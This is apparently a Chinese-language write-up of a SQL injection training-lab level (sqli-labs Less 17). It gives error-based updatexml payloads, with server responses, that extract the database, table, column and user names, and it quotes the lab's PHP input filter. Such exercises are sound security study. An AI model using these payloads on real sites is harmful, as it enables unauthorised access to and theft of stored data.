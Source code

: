 ### Less 17 Update Query-Error Based

`uname=admin&passwd=1'&submit=Submit`发包后得到回显:You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1

```sql
SELECT username, password FROM users WHERE username= $uname LIMIT 0,1
```

判断注入点位于`passwd`，闭合方式为`'`。

尝试`xpath`报错注入：

```sql
# 爆库
uname=admin&passwd=1' or updatexml(1,concat(0x7e,database(),0x7e),1)#&submit=Submit
# 回显: XPATH syntax error: '~security~'

# 爆数据表
uname=admin&passwd=' or updatexml(1, concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()),0x7e),1)#&submit=Submit
# 回显：XPATH syntax error: '~emails,referers,uagents,users~'

# 爆列
uname=admin&passwd=' or updatexml(1, concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 3,1),0x7e),1)#&submit=Submit
# 回显: XPATH syntax error: '~id~' 
# 3 id 4 username 5 password

# 爆数据
uname=admin&passwd=' or updatexml(1,concat(0x7e,(select username from users),0x7e),1)#&submit=Submit
# 回显：You can't specify target table 'users' for update in FROM clause
uname=admin&passwd=' or updatexml(1,concat(0x7e,(select username from (select username from users)b limit 0,1),0x7e),1)#&submit=Submit
# 回显：XPATH syntax error: '~Dumb~'

```

通过查看代码我们发现:`$uname=check_input($_POST['uname']);`。

```php
function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		}

		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
			{
			$value = stripslashes($value);
			}

		// Quote if not a number
		if (!ctype_digit($value))
			{
			$value = "'" . mysql_real_escape_string($value) . "'";
			}
		
	else
		{
		$value = intval($value);
		}
	return $value;
```